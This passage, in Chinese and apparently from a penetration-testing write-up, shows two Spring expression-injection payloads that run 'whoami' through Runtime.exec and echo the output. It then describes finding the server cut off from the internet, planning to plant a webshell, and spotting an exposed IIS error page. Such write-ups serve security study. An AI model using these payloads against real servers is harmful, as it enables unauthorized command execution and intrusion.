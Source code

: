 上面的payload只能读取单行结果，也可以使用其他的回显方法可以读取多行结果。

```plain
${new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream()))}
${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}
```

![图片](assets/1706513706-c3f3496e6a44be43975064f07490a152.png)

经过探测发现服务器不通外网，所以还是得通过写webshell的方式来进一步获取权限，但是SpringBoot应用基本不大可能能写webshell到应用目录进行访问。刚巧发现服务器上还运行了IIS服务，直接访问URL的一级目录就出来一个报错信息了，真是山重水复疑无路，柳暗花明又一村。

![图片](assets/1706513706-2ad139a26f021453d9a547f105a34142.png)
